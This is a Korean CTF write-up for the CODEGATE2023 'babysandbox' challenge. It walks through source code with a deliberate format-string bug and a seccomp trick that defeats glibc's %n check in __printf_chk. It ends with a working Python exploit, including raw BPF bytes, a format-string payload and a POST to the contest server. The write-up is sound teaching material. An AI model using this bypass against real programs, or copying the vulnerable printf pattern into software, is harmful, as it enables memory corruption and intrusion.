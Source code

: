 ```yaml
---
layout: post
date: 2023-06-18
title: "CODEGATE2023 Quals babysandbox write-up"
tags: [pwnable, seccomp, FSB, ]
categories: [CTF, CODEGATE2023, ]
---
```



## 문제 분석


---



{% raw %}
```c
// gcc box.c -o box -no-pie

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <linux/seccomp.h>
#include <sys/prctl.h>

#define FLAG_PATH "/flag"

int install_seccomp(uint8_t *filt, unsigned short len);
void vuln();
void read_flag();

uint32_t target = 0xdead;

int main(int argc, char **argv) {
    uint32_t filt_len;

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    read(0, &filt_len, sizeof(uint32_t));
    if (filt_len > 0x200) {
        __printf_chk(1, "Too much T_T\n");
        return 1;
    }
    uint8_t *filt =  (unsigned char *)calloc(sizeof(uint8_t), filt_len);
    int res = read(0, filt, filt_len);
    if (res != filt_len) {
        __printf_chk(1, "Cannot read enough T_T\n");
        return 1;
    }

    if (install_seccomp(filt, (unsigned short)filt_len))
        return 1;

    vuln();

    return 0;
}

int install_seccomp(unsigned char *filt, unsigned short filt_len) {
    struct prog {
        unsigned short len;
        unsigned char *filt;
    } rule = {
        .len = filt_len >> 3,
        .filt = filt
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) < 0) {
        __printf_chk(1, "Failed to prctl(PR_SET_NO_NEW_PRIVS) T_T\n");
         return 1;
    }
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &rule) < 0) { 
        __printf_chk(1, "Failed to prctl(PR_SET_SECCOMP) T_T\n");
         return 1;
    }
    return 0;
}

void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input);

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}

void read_flag() {
    int fd = open(FLAG_PATH, O_RDONLY);
    char flag_buf[0x100];

    if (fd < 0) {
        __printf_chk(1, "Failed to open flag, contact admin please T_T\n");
        exit(1);
    }

    memset(flag_buf, 0, sizeof(flag_buf));
    int res = read(fd, flag_buf, sizeof(flag_buf));

    if (res < 0) {
        __printf_chk(1, "Failed to read flag, contact admin please T_T\n");
        exit(1);        
    }
    close(fd);
    write(1, flag_buf, res);

    return;
}```
{% endraw %}



입력 받은 seccomp 필터를 바이너리에 적용한 후에 FSB를 트리거 할 수 있게 해준다.


target을 0x1337로 변조하면 플래그를 출력해주지만, `printf_chk` 함수는 `%n`을 사용하지 못한다.


<br>


그러나 read-only 영역에서는 `%n`을 사용할 수 있으며, glibc에서는 `/proc/self/maps`를 열어 read-only 영역인지 판단한다.


<br>


`__readonly_area` 함수에서는 해당 포인터가 read-only 영역인지 확인한다. 하지만 fopen에 실패했을 경우 에러코드를 통해 해당 영역이 read-only 영역에 해당하는 지를 반환한다. 



{% raw %}
```c
int
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
.
.```
{% endraw %}



{: file='sysdeps/unix/sysv/linux/readonly-area.c'}


<br>


seccomp를 통해 `openat` 시스템콜을 막고 원하는 에러코드를 반환하도록 설정할 수 있다.


한가지 주의해야할 점은 flag 파일을 읽어들일 때도 `openat` 시스템콜을 사용하므로 인자로 플래그 파일명 포인터가 넘어왔을 때는 허용해주었다.


또한 `openat` 시스템콜은 rsi를 파일명 포인터로 받으므로 `A = args[1]`로 설정해주어야 한다.



{% raw %}
```ruby
A = sys_number
A != openat ? ok : next
A = args[1]
A == 0x402147 ? ok : next
return ERRNO(2)
ok:
return ALLOW```
{% endraw %}



이제 `%n`을 사용할 수 있으므로 FSB를 통해 값을 변조하면 된다.


## 익스플로잇


---



{% raw %}
```python
import requests
import base64 
from pwn import*

send_payload:list[bytes] = []

bpf = b"\x20\x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00\x20\x00\x00\x00\x18\x00\x00\x00\x54\x00\x00\x00\xff\x00\x00\x00\x15\x00\x01\x00\x47\x00\x00\x00\x06\x00\x00\x00\x02\x00\x05\x00\x06\x00\x00\x00\x00\x00\xff\x7f"
send_payload.append(p32(len(bpf)))
send_payload.append(bytes(bpf))


payload = b''
payload += b'%' + b'4856' + b'c' # 0x1337
payload += b'%d%d%d%d%d%d%d%d%d%n'
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(0x404088)
send_payload.append(payload)

result_payload = b''.join(send_payload)

res = requests.post('http://15.164.245.40:1400/', data={'payload':base64.b64encode(result_payload)})

print(res.text)```
{% endraw %}



## 레퍼런스


---


[https://0xacb.com/2017/11/19/hxp-flag-store/](https://0xacb.com/2017/11/19/hxp-flag-store/)

